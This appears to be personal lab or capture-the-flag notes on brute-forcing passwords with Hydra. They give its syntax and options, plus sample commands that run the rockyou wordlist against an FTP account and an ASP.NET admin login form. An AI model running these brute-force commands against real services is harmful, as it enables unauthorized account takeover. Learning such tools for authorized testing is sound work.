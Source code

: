 Password Attack

`hydra -l USERNAME -P WORDLIST.txt SERVER SERVICE`

`hydra -l mark -P /usr/share/wordlists/rockyou.txt 10.10.74.138 ftp`



`-l USER`: provide login name
`-P WORDLIST`: specify password list
`-p PASS`: specify password
`-s PORT`: use to specify non-default ports
`-V, -vV:` verbosity, shows username and password combos tried
`-d`: debugging output
`-t`: threads, connections to target


- service = `http-post-form`, followed by `"PAGE_PATH:POST_BODY:FAILURE_STRING"` (quotes required)
 `hydra -l Admin -P /usr/share/wordlists/rockyou.txt 10.10.224.5 http-post-form "/Account/login.aspx?ReturnURL=/admin/:__VIEWSTATE=5sWUyuEPRoAZmEapI&__EVENTVALIDATION=dYsjLikt80&LoginUser%24UserName=^USER^&LoginUser%24Password=^PASS^&LoginUser%24LoginButton=Log+in:failed"``